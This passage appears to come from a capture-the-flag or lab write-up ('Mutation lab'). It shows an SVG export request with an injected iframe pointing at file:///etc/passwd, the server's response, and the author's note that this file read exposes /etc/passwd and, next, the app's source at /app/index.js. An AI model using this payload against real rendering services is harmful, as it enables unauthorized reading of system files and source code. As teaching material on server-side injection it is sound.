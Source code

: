 ```bash
{"svg":"<svg-dummy></svg-dummy><iframe src=\"file:///etc/passwd\" width=\"100%\" height=\"1000px\"></iframe><svg viewBox=\"0 0 240 80\" height=\"1000\" width=\"1000\" xmlns=\"http://www.w3.org/2000/svg\"> <text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text></svg>"}
```

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 55
ETag: W/"37-/aMHNik7huB/5J1ahWCiHNniHPw"
Date: Fri, 20 May 2022 06:41:03 GMT
Connection: close

{"png":"/exports/5b5b827cb094fd60b68cd9f93acd3e25.png"}
```

![3.png](Mutation%20lab%2044ba47ec69e94b87bbab0aff5ac66764/3.png)

We can see the contents of `/etc/passwd`.

Now since we have a directory traversal here, we can easily read the source code of the application. 

We also know the absolute location of the application source code, thanks to the error that we created before.

The source code of the application is at - `/app`.

**Source code for `/app/index.js`** →
